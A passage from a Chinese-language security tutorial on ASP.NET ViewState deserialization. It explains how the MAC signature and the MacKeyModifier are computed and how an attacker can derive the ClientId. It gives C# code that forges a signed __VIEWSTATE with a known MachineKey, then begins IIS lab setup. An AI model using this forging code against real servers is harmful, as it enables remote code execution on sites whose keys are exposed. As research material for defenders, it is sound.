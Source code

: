 ```
System.Web.UI.ObjectStateFormatter.Deserialize
System.Web.UI.Page.LoadAllState
(if IsPostBack)
System.Web.UI.Page.ProcessRequestMain
System.Web.UI.Page.ProcessRequest
```

进入PostBack模式有两个条件：页面不是通过`Server.Transfer`进行重定向的，`__VIEWSTATE`等隐藏表单存在。默认直接访问页面即可满足上述条件。

### <a class="reference-link" name="0x13%20ViewState%E9%AA%8C%E8%AF%81%E3%80%81MacKeyModifier%E4%B8%8EMachineKey"></a>0x13 ViewState验证、MacKeyModifier与MachineKey

由于ViewState完全由客户端传入，为了防止篡改，ObjectStateFormatter会使用`MachineKey`对信息进行加密或签名。在默认情况下，MachineKey由fx随机生成，长度为0x400；反序列化的数据不会进行加密，但会进行`HMACSha256`签名，计算出的签名将附加在数据最后。

高版本的fx添加了`MacKeyModifier`作为Salt，由`ClientId`和`ViewStateUserKey`两部分拼接而成。在默认情况下，ViewStateUserKey为`空`；ClientId的算法为当前页面`虚拟目录`路径与当前`页面类型名称`的HashCode之和，同时会以十六进制形式存放于名为`__VIEWSTATEGENERATOR的`隐藏表单中返回。

而即使ClientId不返回实际上也几乎没有影响：在不存在反向代理的情况下，最坏的黑盒情况依然可通过url逐级爆破获得当前页面虚拟路径；当前页面的类型名称则是固定的将请求路径中的句点(.)以及斜杠(/)替换为下划线(_)，例如`/a/b/c.aspx`最终的类型名为`a_b_c_aspx`。

无论加密还是解密时，ObjectStateFormatter都会根据对应的Page`重新计算`MacKeyModifier，客户端请求所发送的__VIEWSTATEGENERATOR`不参与`反序列化。

综上，在已知key的情况下，可以使用以下代码直接算出hash，以及最终的ViewState：

```
byte[] data=GetViewState();
byte[] key=new byte[]`{`0,1,2,3,4,5,6,7,8,9,0xa,0xb,0xc,0xd,0xe,0xf,0,1,2,3,4,5,6,7,8,9,0xa,0xb,0xc,0xd,0xe,0xf`}`;
int hashcode = StringComparer.InvariantCultureIgnoreCase.GetHashCode("/");
uint _clientstateid=(uint)(hashcode+StringComparer.InvariantCultureIgnoreCase.GetHashCode("index_aspx"));
byte[] _mackey = new byte[4];
_mackey[0] = (byte)_clientstateid;
_mackey[1] = (byte)(_clientstateid &gt;&gt; 8);
_mackey[2] = (byte)(_clientstateid &gt;&gt; 16);
_mackey[3] = (byte)(_clientstateid &gt;&gt; 24);
MemoryStream ms = new MemoryStream();
ms.Write(data,0,data.Length);
ms.Write(_mackey,0,_mackey.Length);
byte[] hash=(new HMACSHA256(key)).ComputeHash(ms.ToArray());
ms=new MemoryStream();
ms.Write(data,0,data.Length);
ms.Write(hash,0,hash.Length);
Console.WriteLine("__VIEWSTATE=`{`0`}`&amp;__VIEWSTATEGENERATOR=`{`1`}`",
    HttpUtility.UrlEncode(Convert.ToBase64String(ms.ToArray())),
    _clientstateid.ToString("X2"));
```

编译上述代码，执行，复制输出。

在IIS的默认站点进行下列操作：确保应用程序池为`.net 4.0`，新建一个空白的`default.aspx`，将刚刚编译的exe复制到`bin`目录下，在`web.config`中添加MachineKey（如下）。
